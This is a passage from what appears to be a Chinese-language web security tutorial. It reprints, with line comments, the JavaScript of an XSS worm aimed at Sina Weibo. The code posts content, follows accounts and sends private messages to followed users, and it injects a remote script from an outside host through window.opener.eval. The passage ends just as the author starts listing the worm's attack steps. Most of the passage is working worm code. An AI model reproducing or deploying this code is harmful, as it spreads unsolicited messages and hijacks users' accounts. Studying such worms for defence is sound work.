 }
<span class="hljs-comment">// 发送私信</span>
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">message</span>(<span class="hljs-params"></span>)</span>{
&nbsp;&nbsp;&nbsp;&nbsp;url&nbsp;=&nbsp;<span class="hljs-string">'http://weibo.com/'</span>&nbsp;+&nbsp;$CONFIG.$uid&nbsp;+&nbsp;<span class="hljs-string">'/follow'</span>;&nbsp;<span class="hljs-comment">//构造用户关注用户列表页 Url</span>
&nbsp;&nbsp;&nbsp;&nbsp;ids&nbsp;=&nbsp;getappkey(url);&nbsp;<span class="hljs-comment">//获取被关注用户的 Appkey 数组</span>
&nbsp;&nbsp;&nbsp;&nbsp;id&nbsp;=&nbsp;ids.split(<span class="hljs-string">'||'</span>);&nbsp;<span class="hljs-comment">//分割出每个被关注用户的 Appkey</span>
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">for</span>(i=<span class="hljs-number">0</span>;i&lt;id.length&nbsp;-&nbsp;<span class="hljs-number">1</span>&nbsp;&amp;&nbsp;i&lt;<span class="hljs-number">5</span>;i++){
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-comment">//构造私信发送 Url</span>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msgurl&nbsp;=&nbsp;<span class="hljs-string">'http://weibo.com/message/addmsg.php?rnd='</span>&nbsp;+&nbsp;<span class="hljs-keyword">new</span>&nbsp;<span class="hljs-built_in">Date</span>().getTime();
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msg&nbsp;=&nbsp;random_msg();
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msg&nbsp;=&nbsp;<span class="hljs-built_in">encodeURIComponent</span>(msg);
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;user&nbsp;=&nbsp;<span class="hljs-built_in">encodeURIComponent</span>(<span class="hljs-built_in">encodeURIComponent</span>(id[i]));
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;data&nbsp;=&nbsp;<span class="hljs-string">'content='</span>&nbsp;+&nbsp;msg&nbsp;+&nbsp;<span class="hljs-string">'&amp;name='</span>&nbsp;+&nbsp;user&nbsp;+&nbsp;<span class="hljs-string">'&amp;retcode='</span>;
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;post(msgurl,data,<span class="hljs-literal">false</span>);  <span class="hljs-comment">//通过 XmlHttpRequest 发送请求</span>
&nbsp;&nbsp;&nbsp;&nbsp;}
}
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">main</span>(<span class="hljs-params"></span>)</span>{
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">try</span>{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;publish();&nbsp;<span class="hljs-comment">//模拟发表微博</span>
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">catch</span>(e){}
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">try</span>{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;follow();&nbsp;<span class="hljs-comment">//模拟关注用户</span>
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">catch</span>(e){}
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">try</span>{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;message();&nbsp;<span class="hljs-comment">//模拟发送私信</span>
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">catch</span>(e){}
}
<span class="hljs-keyword">try</span>{
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-comment">//在当前 body 尾部插入存放在远端的 Xss 恶意脚本</span>
&nbsp;&nbsp;&nbsp;x=<span class="hljs-string">"g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)"</span>;<span class="hljs-built_in">window</span>.opener.eval(x);
}
<span class="hljs-keyword">catch</span>(e){}
main();
<span class="hljs-keyword">var</span>&nbsp;t=setTimeout(<span class="hljs-string">'location="http://weibo.com/pub/topic";'</span>,<span class="hljs-number">5000</span>);
<span class="hljs-comment">//等待 5 秒跳转到微话题页面</span>
</code></pre>
<p data-nodeid="53225">我总结了该 XSS 蠕虫的攻击流程：</p>
<ol data-nodeid="70818">
<li data-nodeid="70819">
<p data-nodeid="70820">利用 XSS 漏洞插入恶意 JS 代码；</p>